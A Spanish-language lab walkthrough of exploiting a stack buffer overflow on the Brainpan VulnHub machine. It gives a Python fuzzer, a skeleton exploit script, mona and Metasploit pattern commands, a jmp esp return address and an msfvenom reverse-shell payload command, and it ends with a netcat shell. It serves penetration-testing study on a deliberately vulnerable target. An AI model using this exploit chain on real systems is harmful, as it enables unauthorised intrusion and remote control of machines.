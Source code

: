 Para explotar un BoF, vamos a estar utilizando la máquina brainpan de la plataforma vulnhub:
```bash
https://www.vulnhub.com/entry/brainpan-1,51/
```
![[Pasted image 20231201132955.png]]
Hacemos el escaneo con nmap:
![[Pasted image 20231130105922.png]]
Accedemos al contenido del puerto 10000 ya que vemos que corre algo por HTTP:
![[Pasted image 20231130105957.png]]
Realizamos fuzzing web y encontramos el directorio /bin:
![[Pasted image 20231130110024.png]]
Vamos a ejecutar este binario dentro de una máquina windows para analizarlo mejor:
![[Pasted image 20231130110044.png]]
Y vemos que lo que hace es levantar un servicio por el puerto 9999 (puerto que ya estaba abierto en la máquina objetivo). Para ello lo compartimos con una máquina windows 7 para ejecutarlo desde ahí:
![[Pasted image 20231130110205.png]]
![[Pasted image 20231130110250.png]]
Y lo ejecutamos, donde podemos confirmar cómo se levanta un servicio por el puerto 9999:
![[Pasted image 20231130110407.png]]
El siguiente paso será instalar el inmunity debugger en la máquina windows para monitorear el programa, ya que el objetivo es ejecutar el binario para identificar si dispone de alguna vulnerabilidad que permita lanzar un shellcode contra nuestro verdadero target:
![[Pasted image 20231130110510.png]]
Una vez ejecutado el programa y habiéndolo cargado anteriormente, lanzamos un escaneo de nmap contra la máquina windows y vemos que inmunnity debugger lo tiene ejecutado por el mismo puerto:
![[Pasted image 20231130110407.png]]
El siguiente paso será establecer un directorio de trabajo donde vamos a trabajar con el inmunity debugger, por lo que hay que ejecutar el siguiente comando:
```python
!mona config -set workingfolder C:\Users\mario\Desktop\BOF
```
![[Pasted image 20231201102345.png]]
Y también debemos configurar el mona, lo cual será el script que nos permita aplicar filtros y realizar comprobaciones más adelante, por lo que debemos dirigirnos al siguiente repositorio de github:
![[Pasted image 20231201110335.png]]
Nos descargamos el script de mona:
![[Pasted image 20231201110353.png]]
Y lo pegamos dentro de la carpeta de PyCommands del inmunity debugger:
![[Pasted image 20231130155816.png]]
El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = "192.168.0.39"  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```
Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]
Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir:
![[Pasted image 20230906192346.png]]
## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset; y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```
Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]
Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]
Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona:
```python
!mona findmsp -distance 600
```
Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]
Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]
Una vez obtenido el EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]
Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]
Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]
Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]
## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.

------------------------------

Para testearlo, vamos a instalar la librería badchars de python:
![[Pasted image 20230906194513.png]]
Y con este comando generamos las badchars totales:
![[Pasted image 20230906194536.png]]
Y añadimos esto dentro de nuesto script de python en la variable payload:
![[Pasted image 20230906195052.png]]
Y ahora vamos ejecutar el siguiente comando en el Immunity !mona bytearray -b "\x00" para que tenga un archivo con el que comparar el de la aplicación, y si hay algún bad char nos lo llegaría a mostrar:
![[Pasted image 20231201102116.png]]
Y vemos que se nos guarda este reporte en el archivo llamado bytearray (gracias a que al principio del todo hemos establecido el entorno de trabajo):
![[Pasted image 20231201102504.png]]
Reiniciamos el binario en el inmmunity debugger:
![[Pasted image 20231130152020.png]]
Lanzamos nuevamente el exploit y nos fijamos en el número ESP:
![[Pasted image 20231201102609.png]]
![[Pasted image 20231201102638.png]]
Una vez obtenido el número de ESP, ejecutamos el siguiente comando para comprobar la existencia de bad characters:
```python
!mona compare -f C:\Users\mario\Desktop\BOF\bytearray.bin -a 005FF910
```
Y se nos debería abrir esta ventana:
![[Pasted image 20231201103106.png]]
Y no tenemos ningún bad char (a excepción del \x00 que ese siempre es bad char):
![[Pasted image 20231201103134.png]]
Si hubiera algún bad char, habría que quitarlo del exploit:
![[Pasted image 20231201103240.png]]
## POINTER
Ahora tenemos que darle un punto de salto donde ejecutar, con este comando estaríamos buscando las instrucciones de "jmp esp". Por lo que ejecutamos el siguiente comando, con los badchars que nos haya aparecido anteriormente (en nuestro caso cómo mínimo es el x00 ya que este número siempre es un bad char):
```python
!mona jmp -r esp -cpb "\x00"
```
Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]
Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]
Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]
Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]
Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]
## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]
Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]
Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés:
```python
retn= "\xf3\x12\x17\x31"

padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]
Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]
Lo ejecutamos:
![[Pasted image 20231201105126.png]]
Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]

























